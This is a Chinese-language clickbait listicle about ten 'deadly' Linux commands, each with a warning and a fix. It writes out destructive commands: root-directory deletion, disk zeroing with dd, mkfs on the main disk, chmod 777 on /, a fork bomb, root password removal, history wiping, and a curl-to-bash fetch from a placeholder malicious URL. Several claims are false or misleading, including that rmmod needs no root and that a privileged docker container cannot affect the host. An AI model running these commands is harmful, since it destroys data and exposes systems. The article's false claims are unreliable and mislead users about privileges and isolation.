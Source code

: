 
---
🔥 **删库跑路必备？Linux十大死亡命令，第1名运维见了都手抖！**
**副标题：**
⚠️ _"这行代码千万别试！" ——来自某侥幸恢复数据的老运维临终遗言_

---

### **开篇：新手的第一个死亡flag**
_"这条命令删库比rm -rf还快？试试看！" ——你即将花72小时哭着恢复数据_
当好奇心遇上root权限，这些命令可能会让你的服务器当场暴毙…

---

### **TOP10. 空格毁灭者**
```bash
rm -rf / home/backups  # 在/和home之间误加了空格！
```
**💀杀伤力**：瞬间清空根目录
**🔴高危点**：路径前的空格如同隐形的定时炸弹
**🛡️补救**：立刻断电 → 用Live CD恢复 → 从此养成`rm -rf "./"target_dir`习惯

---

### **TOP9. 磁盘清零弹**
```bash
dd if=/dev/zero of=/dev/sda  # 对硬盘进行物理级格式化
```
**☢️危险系数**：`/dev/zero`会写入无尽空数据
**📉经典翻车案例**：
某程序员误以为在烧录U盘，实际上是擦除主硬盘——全程无确认提示！

---

### **TOP8. 权限核弹**
```bash
chmod -R 777 /  # 全盘开放读写执行权限
```
**⚠️后果**：黑客可任意篡改系统文件
**🔐正确姿势**：
```bash
find /path -type d -exec chmod 755 {} \;  # 目录755
find /path -type f -exec chmod 644 {} \;  # 文件644
```

---

### **TOP7. 登录自杀指令**
```bash
echo "" > ~/.bash_history  # 清空操作记录
```
**🕵️隐藏风险**：出事时无法追溯操作痕迹
**🚨进阶作死**：
```bash
history -c && shutdown -h now  # 删记录后立即关机
```

---

### **TOP6. 资源绞肉机**
```bash
:(){ :|:& };:  # Fork炸弹（瞬间榨干CPU）
```
**⚡爆发速度**：进程数指数级增长 → 30秒内系统卡死
**💡存活技巧**：
```bash
ulimit -u 100  # 限制单个用户进程数
```

---

### **TOP5. 密码粉碎机**
```bash
passwd -d root  # 删除root密码
```
**🏴‍☠️黑客最爱**：配合SSH免密登录食用，服务器秒变肉鸡
**🛡️防御方案**：
```bash
# /etc/ssh/sshd_config 添加：
PermitRootLogin no
```

---

### **TOP4. 文件转移陷阱**
```bash
mv /home/* /dev/null  # 把用户数据扔进黑洞
```
**🌌数据归宿**：所有文件永久消失（/dev/null不是目录！）
**🚑急救包**：
```bash
debugfs -w /dev/sda1  # 尝试用文件系统调试工具恢复
```

---

### **TOP3. 内核刺客**
```bash
rmmod ext4  # 卸载正在使用的文件系统驱动
```
**💥后果**：系统瞬间内核崩溃 → 强制重启都无效
**📌冷知识**：这条命令甚至不需要root权限（默认情况下）

---

### **TOP2. 硬盘墓碑刻字**
```bash
mkfs.ext4 /dev/sda  # 格式化主硬盘
```
**🪦遗言生成器**："我以为那是U盘…" ——年度运维悲喜剧高频台词
**🧯救命指南**：
```bash
testdisk /dev/sda  # 使用数据恢复神器
```

---

### **TOP1. 终极死亡交响曲**
```bash
curl -sL http://恶意网址/boom.sh | bash
```
**☠️危险本质**：
1. 直接执行未知脚本
2. 可能触发`rm -rf /*` + 防火墙关闭 + 挖矿程序安装
**🚫绝对禁忌**：永远别用管道直接运行网络脚本！

---

### **🌈幸存者自救指南**
1. **快照护盾**：
   ```bash
   # 每天凌晨自动创建LVM快照
   lvcreate -s -n backup_snap -L 10G /dev/vg00/lv_root
   ```
2. **权限枷锁**：
   ```bash
   alias rm='rm -i'  # 删除前确认
   set -o noclobber  # 禁止重定向覆盖文件
   ```
3. **终极奥义**：
   ```bash
   docker run --rm -it --privileged alpine  # 在容器里作死（不影响宿主机）
   ```

---

### **🎯下期预警**
**《黑客最怕你用的7条防御命令》**